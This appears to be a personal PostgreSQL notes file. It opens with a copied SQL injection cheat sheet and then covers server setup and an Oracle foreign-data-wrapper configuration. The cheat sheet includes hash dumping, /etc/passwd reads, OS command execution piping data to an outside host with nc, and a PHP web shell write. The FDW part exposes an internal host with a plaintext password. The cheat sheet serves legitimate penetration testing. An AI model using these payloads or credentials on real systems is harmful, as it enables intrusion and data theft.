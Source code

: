 
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

<table border="1">
<tbody>
<tr>
<td>Version</td>
<td>SELECT version()</td>
</tr>
<tr>
<td>Comments</td>
<td>SELECT 1; –comment<br>
SELECT /*comment*/1;</td>
</tr>
<tr>
<td>Current User</td>
<td>SELECT user;<br>
SELECT current_user;<br>
SELECT session_user;<br>
SELECT usename FROM pg_user;<br>
SELECT getpgusername();</td>
</tr>
<tr>
<td>List Users</td>
<td>SELECT usename FROM pg_user</td>
</tr>
<tr>
<td>List Password Hashes</td>
<td>SELECT usename, passwd FROM pg_shadow — priv</td>
</tr>
<tr>
<td>Password Cracker</td>
<td><a href="http://pentestmonkey.net/blog/cracking-postgres-hashes/">MDCrack</a> can crack PostgreSQL’s MD5-based passwords.</td>
</tr>
<tr>
<td>List Privileges</td>
<td>SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user</td>
</tr>
<tr>
<td>List DBA Accounts</td>
<td>SELECT usename FROM pg_user WHERE usesuper IS TRUE</td>
</tr>
<tr>
<td>Current Database</td>
<td>SELECT current_database()</td>
</tr>
<tr>
<td>List Databases</td>
<td>SELECT datname FROM pg_database</td>
</tr>
<tr>
<td>List Columns</td>
<td>SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum&gt;0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’)</td>
</tr>
<tr>
<td>List Tables</td>
<td>SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)</td>
</tr>
<tr>
<td>Find Tables From Column Name</td>
<td>If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum&gt;0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;</td>
</tr>
<tr>
<td>Select Nth Row</td>
<td>SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from 0<br>
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;</td>
</tr>
<tr>
<td>Select Nth Char</td>
<td>SELECT substr(‘abcd’, 3, 1); — returns c</td>
</tr>
<tr>
<td>Bitwise AND</td>
<td>SELECT 6 &amp; 2; — returns 2<br>
SELECT 6 &amp; 1; –returns 0</td>
</tr>
<tr>
<td>ASCII Value -&gt; Char</td>
<td>SELECT chr(65);</td>
</tr>
<tr>
<td>Char -&gt; ASCII Value</td>
<td>SELECT ascii(‘A’);</td>
</tr>
<tr>
<td>Casting</td>
<td>SELECT CAST(1 as varchar);<br>
SELECT CAST(’1′ as int);</td>
</tr>
<tr>
<td>String Concatenation</td>
<td>SELECT ‘A’ || ‘B’; — returnsAB</td>
</tr>
<tr>
<td>If Statement</td>
<td>IF statements only seem valid inside functions, so aren’t much use for SQL injection.&nbsp; See CASE statement instead.</td>
</tr>
<tr>
<td>Case Statement</td>
<td>SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; — returns A</td>
</tr>
<tr>
<td>Avoiding Quotes</td>
<td>SELECT CHR(65)||CHR(66); — returns AB</td>
</tr>
<tr>
<td>Time Delay</td>
<td>SELECT pg_sleep(10); — postgres 8.2+ only<br>
CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS ‘/lib/libc.so.6′, ‘sleep’ language ‘C’ STRICT; SELECT sleep(10); –priv, create your own sleep function.&nbsp; Taken from <a href="http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf">here</a> .</td>
</tr>
<tr>
<td>Make DNS Requests</td>
<td>Generally not possible in postgres.&nbsp; However if <a href="http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.html">contrib/dblink</a>is installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights):<p></p>
<pre>SELECT * FROM dblink('host=put.your.hostname.here user=someuser  dbname=somedb', 'SELECT version()') RETURNS (result TEXT);</pre>
<p>Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”.</p></td>
</tr>
<tr>
<td>Command Execution</td>
<td>CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6′, ‘system’ LANGUAGE ‘C’ STRICT; — privSELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080′); — priv, commands run as postgres/pgsql OS-level user</td>
</tr>
<tr>
<td>Local File Access</td>
<td>CREATE TABLE mydata(t text);<br>
COPY mydata FROM ‘/etc/passwd’; — priv, can read files which are readable by postgres OS-level user<br>
…’ UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 1; — get data back one row at a time<br>
…’ UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 2; — get data back one row at a time …<br>
DROP TABLE mytest mytest;Write to a file:<p></p>
<p>CREATE TABLE mytable (mycol text);<br>
INSERT INTO mytable(mycol) VALUES (‘&lt;? pasthru($_GET[cmd]); ?&gt;’);<br>
COPY mytable (mycol) TO ‘/tmp/test.php’; –priv, write files as postgres OS-level user.&nbsp; Generally you won’t be able to write to the web root, but it’s always work a try.<br>
– priv user can also read/write files by <a href="http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf">mapping libc functions</a></p></td>
</tr>
<tr>
<td>Hostname, IP Address</td>
<td>SELECT inet_server_addr(); — returns db server IP address (or null if using local connection)<br>
SELECT inet_server_port(); — returns db server IP address (or null if using local connection)</td>
</tr>
<tr>
<td>Create Users</td>
<td>CREATE USER test1 PASSWORD ‘pass1′; — priv<br>
CREATE USER test1 PASSWORD ‘pass1′ CREATEUSER; — priv, grant some privs at the same time</td>
</tr>
<tr>
<td>Drop Users</td>
<td>DROP USER test1; — priv</td>
</tr>
<tr>
<td>Make User DBA</td>
<td>ALTER USER test1 CREATEUSER CREATEDB; — priv</td>
</tr>
<tr>
<td>&nbsp;Location of DB files</td>
<td>SELECT current_setting(‘data_directory’); — priv<br>
SELECT current_setting(‘hba_file’); — priv</td>
</tr>
<tr>
<td>Default/System Databases</td>
<td>template0<br>
template1</td>
</tr>
</tbody>
</table>


# Instalação do Zero (windows) com o Super Usuario
`initdb.exe -U postgres -W -D D:\caminho\da\pasta\do\BD`

# Iniciar/Parar o banco 

`pg_ctl -D /pasta/de/dados -l logfile start`

`pg_ctl -D /pasta/de/dados -l logfile stop`


# FDW

FDW (Foreign Data Wrapper) é uma funcionalidade do PostgreSQL que permite acessar dados armazenados em fontes externas como se fossem tabelas locais dentro do banco de dados. Ele fornece uma maneira de estender o PostgreSQL para se conectar e consultar dados em sistemas de bancos de dados externos, como outros bancos de dados PostgreSQL, bancos de dados MySQL, Oracle, SQL Server, APIs REST, arquivos CSV, entre outros.

Ao configurar um FDW, é possível criar tabelas estrangeiras que fazem referência a esses dados externos, permitindo que consultas sejam realizadas em diferentes fontes de dados sem a necessidade de migração ou duplicação dos dados para o banco de dados PostgreSQL.

Essa funcionalidade é útil em casos de integração de dados, consolidação de informações distribuídas em diferentes sistemas, migração de dados ou mesmo para realizar consultas federadas em várias fontes de dados simultaneamente. O PostgreSQL fornece vários FDWs integrados e também permite a criação de FDWs personalizados, oferecendo flexibilidade para acessar e manipular dados de várias origens em um ambiente centralizado.

```sql
--- instalacao ---
--- Tutorial https://www.enterprisedb.com/postgres-tutorials/using-foreign-data-wrappers-access-remote-postgresql-and-oracle-databases
--- https://github.com/laurenz/oracle_fdw/releases/tag/ORACLE_FDW_2_5_0
CREATE EXTENSION oracle_fdw;
ALTER EXTENSION oracle_fdw UPDATE;
SELECT name, default_version, installed_version FROM pg_available_extensions;

--- Criando uma conexão com um banco Oracle
CREATE SERVER ORC_ORA
FOREIGN DATA WRAPPER oracle_fdw 
OPTIONS (dbserver '//dbmira.copel.nt:1521/mira');

-- drop server ORC_ORA CASCADE;

CREATE USER MAPPING FOR postgres
SERVER ORC_ORA
OPTIONS (user 'admorc', password 'inicio');

--- testando a conexão?
--- Adicione no PATH o caminho aonde esta o oci.dll (64bits)

--- criando e importando schema para o sistema ORC
create SCHEMA orc;
create SCHEMA srh;
---drop schema orc cascade;
---drop schema srh cascade;

IMPORT FOREIGN schema "ORC" from server ORC_ORA into "orc";
IMPORT FOREIGN schema "SRH" from server ORC_ORA into "srh";


--- problema de "FROM dual" do oracle
CREATE FOREIGN TABLE orc.dual (
    dummy VARCHAR(1)
)
SERVER ORC_ORA
OPTIONS (
    table 'DUAL'
);

SELECT 'hello world' FROM dual;

--- database info
SELECT datname, pg_encoding_to_char(encoding), datcollate, datctype FROM pg_database WHERE datname='postgres';
```
# Mais

* https://www.enterprisedb.com/blog/the-complete-oracle-to-postgresql-migration-guide-tutorial-move-convert-database-oracle-alternative